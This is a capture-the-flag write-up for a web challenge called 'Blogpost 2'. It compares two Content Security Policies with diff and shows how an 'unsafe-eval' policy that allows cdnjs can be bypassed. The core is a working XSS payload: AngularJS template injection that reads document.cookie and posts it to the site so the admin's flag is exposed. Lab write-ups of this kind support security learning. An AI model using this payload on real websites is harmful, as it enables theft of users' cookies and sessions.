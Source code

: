 ```yaml
---
layout: default
title: Blogpost 2
permalink: /:path/
parent: Web
nav_order: 2
---
```

# Blogpost 2

> Points: 725 [?]

## Description

> Look out for my blog posts, again!!
> File: `web_blogpost2.zip`

## Solution

### Understanding the application's features

As a follow-up to the `Blogpost` challenge, the application's features do not differ that much. However, there was a small difference in the source code.

### Analysing the source code

By using the `diff` command , we see that only the `src/app/index.js` differed between both applications.

```bash
$ diff web_blogpost/src/app/index.js web_blogpost2/src/app/index.js  
14c14
<         "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
---
>         "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
```

This affects our payload works as this meant that the browser will no longer execute inline javascript.

![](2022-12-06-17-28-53.png)

However, if we use Google's CSP Evaluator, we learn that the new CSP is still bypassable.

![](2022-12-06-17-30-46.png)

### Stealing the flag from the admin user

With a bit of googling and modifying our payload to achieve the same purpose, we create a new blog post with an arbitrary title and the following content:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$eval.constructor('fetch("/post",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({title:"get flag here",content:document.cookie})});')()}}
</div>
```

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.

![](2022-12-06-18-04-19.png)

## Flag
`STF22{f4k3_fl4g_f0r_t3st1ng}`

